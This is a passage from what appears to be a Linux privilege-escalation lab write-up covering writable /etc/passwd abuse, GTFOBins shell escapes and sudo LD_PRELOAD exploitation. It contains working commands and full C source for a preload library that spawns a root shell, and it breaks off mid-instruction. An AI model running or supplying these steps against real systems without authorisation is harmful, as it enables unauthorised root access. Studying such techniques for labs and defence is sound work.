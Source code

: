  
 Now generated password can be replaced with the hash of `root` user and then we can login using the same password as a root.
 
 ### Writable 
 #/etc/passwd
 For this we can create the new hash of newpassword using `openssl` tool 
 ```bash
 root@gr4n173:~$ openssl passwd newpassword
 Warning: truncating password to 8 characters 
xuMbZmFpJEH/s                                
```


Then pasting this hash in `/etc/passwd` file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").

## 3. Shell Escape Sequences
#Sudo
Basically we encounter many program which is run by root user so for that we can use the [GTFOBins](https://gtfobins.github.io/). 

Using instructions in GTFOBins we can get the root shell. From here I got the list of program which can be used the shell escape sequences but `apache2` can't be shell escape so for that we can use the environment variable things.


## 4. Sudo Environment Variables

```C
$code for preload environment
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```


Sudo can be configured to inherit certain environment variables from the user's environment.
Check which environment variables are inherited (look for the env\_keep options): `sudo -l`
`LD\_PRELOAD and LD\_LIBRARY\_PATH` are both inherited from the user's environment. `LD\_PRELOAD` loads a shared object before any others when a program is run. `LD\_LIBRARY\_PATH` provides a list of directories where shared libraries are searched for first.

Create a shared object using the code located at /home/user/tools/sudo/preload.c:
```bash
root@gr4n173:~$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

Run one of the programs you are allowed to run via sudo (listed when running **sudo -l**), while setting the LD\_PRELOAD environment variable to the full path of the new shared object:
